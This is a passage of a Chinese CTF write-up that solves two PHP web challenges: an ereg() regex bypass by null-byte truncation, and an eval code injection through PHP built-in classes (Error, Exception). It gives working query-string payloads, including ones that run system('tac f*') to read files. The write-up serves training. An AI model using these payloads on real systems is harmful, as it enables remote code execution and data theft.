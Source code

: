 ```
GET:
?v3=1
POST:
v1=flag=c4ca4238a0b923820dcc509a6f75849b
```

## 108-ereg_NULL截断

```php
if (ereg ("^[a-zA-Z]+$", $_GET['c'])===FALSE)  {
    die('error');

}
//只有36d的人才能看到flag
if(intval(strrev($_GET['c']))==0x36d){
    echo $flag;
}
```

> ereg对c进行正则匹配，没有字母则die
> `ereg()函数用指定的模式搜索一个字符串中指定的字符串,如果匹配成功返回true,否则,则返回false。搜索字 母的字符是大小写敏感的。 ereg函数存在NULL截断漏洞，导致了正则过滤被绕过,所以可以使用%00截断正则匹配`
>
> strrev会把字符串反转
>
> intval对反转后的字符串进行转换

```
?c=a%00778
```

## 109-php原生类

```php
error_reporting(0);
if(isset($_GET['v1']) && isset($_GET['v2'])){
    $v1 = $_GET['v1'];
    $v2 = $_GET['v2'];

    if(preg_match('/[a-zA-Z]+/', $v1) && preg_match('/[a-zA-Z]+/', $v2)){
            eval("echo new $v1($v2());");
    }
}
```

这里加了`error_reporting(0);`
所以看不到报错，在本地试试就会看到报错了
随便只要能成功new一个类出来，就可以构造闭合rce了
这里因为要echo出来，用带有`_toString`的php原生类就可以了：
Error、Exception

```
?v1=Error();system('tac f*');?>&v2=a
?v1=Exception();system('tac f*');?>&v2=a
```
